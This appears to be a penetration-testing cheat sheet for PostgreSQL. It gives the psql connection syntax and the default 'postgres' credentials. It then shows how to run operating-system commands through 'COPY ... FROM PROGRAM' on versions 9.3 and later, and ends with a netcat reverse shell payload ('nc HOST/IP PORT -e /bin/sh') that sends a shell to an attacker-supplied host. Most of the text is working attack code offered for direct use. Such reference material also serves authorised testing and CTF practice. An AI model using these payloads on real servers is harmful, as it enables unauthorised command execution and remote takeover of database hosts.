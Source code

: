 # Postgresql  

### Connecting to the database
`psql -h HOST/IP -p PORT -U USER`  

Default username and database are both `postgres`   


### Determine the version  
`show version();`  

 
### Command Execution in Postgresql  >= 9.3

```
DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'COMMAND';  
SELECT * FROM cmd_exec;  
```
<i>COMMAND</i> is the command to pass onto the operating system.  
Output of the command is shown after execution of the final SELECT command.  

**For reverse shell**:  
```
DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'nc HOST/IP PORT -e /bin/sh & 2>/dev/null'; 
SELECT * FROM cmd_exec;  
```
